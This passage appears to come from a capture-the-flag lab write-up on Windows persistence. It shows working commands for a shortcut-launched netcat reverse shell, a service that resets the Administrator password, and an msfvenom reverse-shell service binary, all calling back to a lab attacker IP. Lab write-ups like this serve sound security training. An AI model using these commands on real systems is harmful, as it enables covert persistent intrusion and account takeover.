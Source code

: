 Additionally, we can create a reverse shell by attaching a PowerShell script to the shortcut or target area of a legitimate program.

```powershell
Start-Process -NoNewWindow "C:\tools\nc64.exe" "-e cmd.exe 10.13.28.215 1337"
```

Adjust the target area using this shortcut:

```powershell
powershell.exe -WindowStyle hidden C:\Windows\System32\script.ps1
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396236331/ce2adc07-68f7-430c-a60c-297444f2690d.png align="center")

Now, we want to initiate a `Netcat` listener in order to capture the shell.

```bash
rlwrap -cAr nc -lvnp 1337
```

Execute the shortcut:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396279105/f672ddfa-89e4-4d71-92c7-00ceea7a0202.png align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396283605/bee5e1dc-ea0a-4fcf-b7e7-d5df5ce81e25.png align="center")

Grab `flag5.exe` from here.

### Abusing Services

We can create a backdoor in system services using the following methods.

```powershell
sc.exe create THMservice binPath= "net user Administrator Passwd123" start= auto
```

```powershell
sc.exe start THMservice
```

This essentially changes the password of the Administrator user to Passwd123. Additionally, we can also create a reverse shell using `msfvenom` and associate it with the service we created.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.28.215 LPORT=1337 -f exe-service -o rev-svc.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396484309/0c796ea6-cc61-4019-addd-6e99c0e47045.png align="center")

Upload using `Evil-WinRM`:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396494821/b22cf658-8474-4395-85cd-67107770316d.png align="center")

Assign the executable as a service, configure the listener to intercept the shell, and then initiate the service:

```powershell
sc.exe create THMservice2 binPath= "C:\windows\rev-svc.exe" start= auto
```

